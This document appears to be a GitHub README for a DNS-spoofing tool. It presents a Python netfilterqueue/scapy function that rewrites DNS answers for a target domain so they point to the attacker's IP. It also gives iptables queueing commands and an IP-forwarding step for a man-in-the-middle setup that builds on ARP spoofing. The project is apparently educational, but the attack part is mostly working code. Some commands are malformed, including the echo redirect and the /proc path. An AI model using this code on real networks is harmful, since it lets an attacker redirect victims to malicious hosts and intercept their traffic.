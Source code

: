 # DNS_spoof

##Used Modules

###netfilterqueue

This modules is used to redirect the flow of packets, the funtions process_packet will receive the packet and turn it into a scapy packet that i can edit(if you wanna know more about the module scapy go to another of my repositories like ARP_spoof).
When i verify that i have some request from my target(i can know if i have one request because i became the MITM, go to my repository ARP_spoof) if that's true i'm gonna take the value of the url and see if is the same web-site that i wanna spoof, and if it is i can send the DNS response with my ip destination, but with the same url name. Finally i can change the field "an" that contain the real answer to my costumized response and change the field "ancount" for just one response. Finally i'm gonna turn the scapy packet to a real packet.

```python
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
         qname = scapy_packet[scapy.DNSQR].qname
         if "testephp.vulnweb.com" in qname:
             print("[+] Spoofing target" + str(qname))
             answer = scapy.DNSRR(rrname=qname, rdata="192.168.1.8")
             scapy_packet[scapy.DNS].an = answer
             scapy_packet[scapy.DNS].ancount = 1
          
             del scapy_packet[scapy.IP].len
             del scapy_packet[scapy.IP].chksum
             del scapy_packet[scapy.UDP].chksum
             del scapy_packet[scapy.UDP].len
            

             packet.set_payload(str(scapy_packet))
```


## Used Commands

these commands clean the Iptables, and redirect the packets entering and leaving my pc for a queue 0 that i'm creating, this way all the packets that came through my computer instead of just pass (because of my arp_spoof when i became the Man-in-the-Midle) i'm gonna store all the packets in a queue.  

iptables --flush<br>
iptables -I INPUT -j NFQUEUE --queue-num  0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num  0<br>

Internet sharing on Linux is done through Netfilter / Iptables, which is the native firewall for distributions starting with the 2.4 kernel. So is necessary to use this command, this command writes the number 1 into the ip_forward file, enabling packet routing. The default is 0. With this, Linux starts to route packages from one interface to the other and vice versa(My target and my host).

echo > 1 /proc/sys/ipv4/ip_forward


